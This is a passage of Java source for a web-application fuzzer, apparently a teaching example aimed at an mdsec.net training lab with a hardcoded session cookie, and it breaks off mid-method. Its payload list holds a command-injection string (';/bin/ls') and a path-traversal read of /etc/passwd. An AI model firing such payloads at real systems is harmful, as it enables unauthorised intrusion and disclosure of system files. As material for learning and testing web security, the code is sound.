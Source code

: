 ```java

class PSFuzzStrings implements PayloadSource
{
    static final String[] fuzzStrings = new String[]
    {
        "'", ";/bin/ls", "../../../../../../etc/passwd", "xsstest"
    };
    int current = -1;

    public boolean nextPayload()
    {
        current++;
        return current < fuzzStrings.length;
    }

    public void reset()
    {
        current = -1;
    }

    public String getPayload()
    {
        return fuzzStrings[current];
    }

}

public class JAttackFuzz
{
    // attack config
    String host = "mdsec.net";
    int port = 80;
    String method = "GET";
    String url = "/auth/498/YourDetails.ashx";
    Param[] params = new Param[]
    {
        new Param("SessionId_test.login._498", "C1F5AFDD7DF969BD1CD2CE40A2E07D19", Param.Type.COOKIE, true),
        new Param("uid", "198", Param.Type.URL, true),
    };

    PayloadSource payloads = new PSFuzzStrings();

    static final String[] grepStrings = new String[]
    {
        "error", "exception", "illegal", "quotation", "not found", "xsstest"
    };
    static final String[] extractStrings = new String[]
    {
//        "<td>Name:</td><td>", "<td>Address:</td><td>"
    };

    // attack state
    int currentParam = 0;

    boolean nextRequest()
    {
        if (currentParam >= params.length)
            return false;

        if (!params[currentParam].attack)
        {
            currentParam++;
```